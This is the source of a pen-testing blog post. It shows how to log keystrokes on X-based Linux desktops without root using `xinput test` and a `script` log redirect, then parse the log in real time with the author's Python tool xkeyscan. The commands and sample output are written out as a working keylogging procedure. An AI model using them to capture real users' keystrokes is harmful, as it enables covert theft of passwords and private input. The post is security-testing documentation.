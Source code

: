 ```yaml
---
layout: page
title:  "Using xkeyscan to Parse an X-Based Linux Keylogger"
teaser: "Leverage native X-based tools for real-time keylogging with xkeyscan, a Python script that translates X keycodes into legible keystrokes."
categories:
    - blog
tags:
    - linux
    - pen-testing
    - python
    - scripting
header: no
image:
    title: photo-keyboard.jpg
    thumb: photo-keyboard-thumb.jpg
author: porterhau5
---
```

### Background
A colleague of mine, Sanjiv Kawa, came across a nifty technique for capturing the keystrokes of users on an X-based system. I encourage you to check out <a href="https://www.popped.io/2016/06/natively-keylogging-nix-systems.html" target="_blank">his post here</a>, where Sanjiv walks through the process of using `xinput` to find input devices and then sets up the keylogger for capture. It's a particularly useful technique against those utilizing GNOME, KDE, or Xfce desktop environments, common on many *nix systems. It has the added bonus of not requiring root privileges to pull off.

For archival's sake, the process boils down to:

1. `xinput list` - list potential input devices
2. Find the XID of the keyboard to monitor
3. `xinput test <XID>` - display input from the device

XID is the "id" number associated with the desired keyboard input device. On my lab machine, this would be id 12:
{% highlight html %}
⎡ Virtual core pointer                 	id=2	[master pointer  (3)]
⎜   ↳ Virtual core XTEST pointer     	id=4	[slave  pointer  (2)]
⎜   ↳ Razer Razer Naga 2014          	id=8	[slave  pointer  (2)]
⎜   ↳ Razer Razer Naga 2014          	id=9	[slave  pointer  (2)]
⎣ Virtual core keyboard                	id=3	[master keyboard (2)]
    ↳ Virtual core XTEST keyboard      	id=5	[slave  keyboard (3)]
    ↳ Power Button                     	id=6	[slave  keyboard (3)]
    ↳ Video Bus                        	id=7	[slave  keyboard (3)]
    ↳ Razer Razer Naga 2014            	id=10	[slave  keyboard (3)]
    ↳ gpio-keys                        	id=11	[slave  keyboard (3)]
    ↳ porterhau5’s Keyboard            	id=12	[slave  keyboard (3)]
{% endhighlight %}

Now, the output produced by `xinput test <XID>` isn't quite the final output we're looking for. Instead of the characters typed by the user, the result is a series of **keycodes**. This is the output from typing "nano":
{% highlight html %}
$ script -c "xinput test 12" /dev/null
key press 57
key release 57
key press 38
key release 38
key press 57
key release 57
key press 32
key release 32
{% endhighlight %}

How can these keycodes be translated to something more legible? Well, first we need the system's device mapping of **keycodes-to-keysyms**, called a **keymap**. This is obtainable via `xmodmap -pke`:
{% highlight html %}
$ xmodmap -pke | head -n20
keycode   8 =
keycode   9 = Escape NoSymbol Escape
keycode  10 = 1 exclam 1 exclam exclamdown U2044
keycode  11 = 2 at 2 at trademark EuroSign
keycode  12 = 3 numbersign 3 numbersign sterling U2039
keycode  13 = 4 dollar 4 dollar cent U203A
keycode  14 = 5 percent 5 percent infinity UFB01
keycode  15 = 6 asciicircum 6 asciicircum section UFB02
keycode  16 = 7 ampersand 7 ampersand paragraph doubledagger
keycode  17 = 8 asterisk 8 asterisk enfilledcircbullet degree
keycode  18 = 9 parenleft 9 parenleft ordfeminine periodcentered
keycode  19 = 0 parenright 0 parenright masculine singlelowquotemark
keycode  20 = minus underscore minus underscore endash emdash
keycode  21 = equal plus equal plus notequal plusminus
keycode  22 = BackSpace BackSpace BackSpace BackSpace
keycode  23 = Tab ISO_Left_Tab Tab ISO_Left_Tab
keycode  24 = q Q q Q oe OE
keycode  25 = w W w W U2211 doublelowquotemark
keycode  26 = e E e E dead_acute acute
keycode  27 = r R r R registered U2030
{% endhighlight %}

Notice how the keymap has multiple keysym columns for each keycode - this is due to modifiers (Shift, Alt, etc.) No modifier will return the keysym in the first column. The Shift modifier will return the keysym in the second column, and so on. More details about xmodmap and modifiers can be found <a href="https://wiki.archlinux.org/index.php/Xmodmap" target="_blank">here</a>.

The next logical step is to leverage this keymap to automate the keycode-to-keysym conversion process.

### xkeyscan
What I ended up creating was a fairly simple Python script called "xkeyscan" which can be found <a href="https://github.com/porterhau5/xkeyscan" target="_blank">here on GitHub</a>.

{% highlight html %}
$ python xkeyscan.py -h
Usage: python [-u] xkeyscan.py [LOGFILE]

A simple script for converting xinput output to legible keystokes.
Can process a log file directly when passed as an argument, or can
convert keystrokes in near real-time if tailing a log file.
If tailing a log file, use python's -u switch to avoid buffering.

Examples:
  python xkeyscan.py xkey.log (post-process log file)
  cat xkey.log | python xkeyscan.py (accept logs from stdin)
  tail -f -n +1 xkey.log | python -u xkeyscan.py (tail log file)

Type -h or --help for a full listing of options.
{% endhighlight %}

I've built in some logic to account for modifier keys, such as Shift or Alt, so the parser will correctly determine things like case-sensitivity and special characters.

The script can be used a handful of ways depending upon how you'd prefer to feed data into it. For the following examples, data is stored to a file called `xkey.log` using the following syntax:
{% highlight html %}
$ script -c "xinput test <XID>" /dev/null > xkey.log
{% endhighlight %}

xkeyscan can parse the file directly:
{% highlight html %}
$ python xkeyscan.py xkey.log
nano tmp
Test@ <Back> !
{% endhighlight %}

Or read from stdin:
{% highlight html %}
$ cat xkey.log | python xkeyscan.py
nano tmp
Test@ <Back> !
{% endhighlight %}

Or parse in real-time:
{% highlight html %}
$ tail -f -n +1 xkey.log | python -u xkeyscan.py
nano tmp
Test@ <Back> !
{% endhighlight %}

Note the usage of python's `-u` switch on the last command. This disables python's default buffer, allowing for data to be parsed as it's streamed in. The switch is necessary for real-time parsing when tailing a log file, otherwise the data doesn't get parsed until python's buffer is flushed (for example with a CTL-C or CTL-D.)

Here's the tool in action:

  - Capturing is done in the right terminal (using `tee` to verify output)
  - Keystrokes being captured were performed in the top-left terminal
  - xkeyscan is tailing and parsing xkey.log in the bottom-left terminal

<a href="{{ site.urlimg }}xkeyscan-ss.png" target="_blank"><img src="{{ site.urlimg }}xkeyscan-ss.png"></a>

In its current iteration, the xmodmap legend is statically set. If a system's keymap differs, the codes array near the top of xkeyscan.py will need to be adjusted accordingly. My plan for v2 is for the script to take `xmodmap -pke` as input and dynamically generate the appropriate codes. Could even take it a step further and create an all-in-one tool for finding the appropriate device, starting the keylogger, and printing out the parsed result. If you'd like to tackle these changes yourself, feel free to send a <a href="https://github.com/porterhau5/xkeyscan" target="_blank">pull request</a>!

#### Share
<ul class="share-buttons">
  <li><a href="https://twitter.com/intent/tweet?source=http%3A%2F%2Fporterhau5.com%2Fblog%2Fxkeyscan-parse-linux-keylogger%2F&text=Using%20xkeyscan%20to%20Parse%20an%20X-Based%20Linux%20Keylogger:%20http%3A%2F%2Fporterhau5.com%2Fblog%2Fxkeyscan-parse-linux-keylogger%2F&via=porterhau5" target="_blank" title="Tweet"><img alt="Tweet" src="{{ site.urlimg }}flat_web_icon_set/black/Twitter.png"></a></li>
  <li><a href="http://www.reddit.com/submit?url=http%3A%2F%2Fporterhau5.com%2Fblog%2Fxkeyscan-parse-linux-keylogger%2F&title=Using%20xkeyscan%20to%20Parse%20an%20X-Based%20Linux%20Keylogger" target="_blank" title="Submit to Reddit"><img alt="Submit to Reddit" src="{{ site.urlimg }}flat_web_icon_set/black/Reddit.png"></a></li>
  <li><a href="https://getpocket.com/save?url=http%3A%2F%2Fporterhau5.com%2Fblog%2Fxkeyscan-parse-linux-keylogger%2F&title=Using%20xkeyscan%20to%20Parse%20an%20X-Based%20Linux%20Keylogger" target="_blank" title="Add to Pocket"><img alt="Add to Pocket" src="{{ site.urlimg }}flat_web_icon_set/black/Pocket.png"></a></li>
  <li><a href="https://www.facebook.com/sharer/sharer.php?u=http%3A%2F%2Fporterhau5.com%2Fblog%2Fxkeyscan-parse-linux-keylogger%2F&t=Using%20xkeyscan%20to%20Parse%20an%20X-Based%20Linux%20Keylogger" title="Share on Facebook" target="_blank"><img alt="Share on Facebook" src="{{ site.urlimg }}flat_web_icon_set/black/Facebook.png"></a></li>
</ul>
